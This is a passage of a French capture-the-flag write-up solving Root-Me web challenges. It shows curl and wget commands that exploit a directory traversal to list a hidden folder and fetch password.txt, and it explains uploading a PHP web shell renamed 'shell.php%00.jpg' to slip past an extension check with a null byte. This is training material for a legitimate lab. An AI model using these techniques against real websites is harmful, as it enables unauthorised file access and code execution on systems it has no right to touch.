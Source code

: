 Cela confirme que nous avons réussi à récupérer le flag : `ml-SYMPA`

---


## 27. Directory traversal

Je propose ici une solution qui n’est basée que sur des outils CLI.

On commence donc avec cURL :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php
```

Le code source récupéré nous indique que les liens se font avec le paramètre "galerie", on peut donc farfouiller sur le site :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=actions
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps
```

C’est là qu’on va exploiter la faille puisque l’on peut passer à `galerie` un chemin ! Comme indiqué un peu partout sur le forum, la racine est la clef :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=/
```

On voit ici apparaître le dossier caché "86hwnX2r"

Un dernier coup de curl :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=/86hwnX2r
```

Nous montre qu’il existe un fichier `password.txt`, mais en plus nous fournit son chemin !

Il suffit de le rappatrier avec `wget` :
```bash
wget http://challenge01.root-me.org/web-serveur/ch15/galerie///86hwnX2r/password.txt
```

Et d’en afficher le contenu et de l'ouvrir dans le terminal  !

On obtient le Flag : 

---

## 28. File upload - Null byte

Passer ce niveau est très facile. Utilisez le même shell que précédemment. Imaginons que le nom du fichier de votre shell soit `shell.php`. Renommez-le en `shell.php%00.jpg`. Lors de la soumission, l'extension `.jpg` sera supprimée à cause du byte nul qui précède. Une fois le fichier téléchargé, cliquez dessus.

Flag : 

---

# 34 : PHP - Filters
